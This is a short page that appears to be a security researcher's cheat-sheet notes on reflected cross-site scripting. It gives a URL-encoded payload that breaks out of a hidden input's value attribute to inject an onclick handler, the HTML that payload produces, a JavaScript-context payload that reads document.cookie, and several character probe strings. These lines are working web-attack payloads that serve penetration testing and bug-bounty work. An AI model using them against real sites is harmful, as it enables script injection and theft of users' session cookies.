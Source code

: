 #### New payload I have recently been seeing

```
xxx.com%2fexqxn%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2flz241 HTTP/1.1
```
Which becomes
```
[...]<input type="hidden" name="target" value="https://xxx.com/exqxn "accesskey="x"onclick="alert (1)"//lz241">
```

#### RXSS in JS
When input reflected in JS, try:
`a'-alert(document.cookie)-'b`



//\'`-<>!"

//\'!
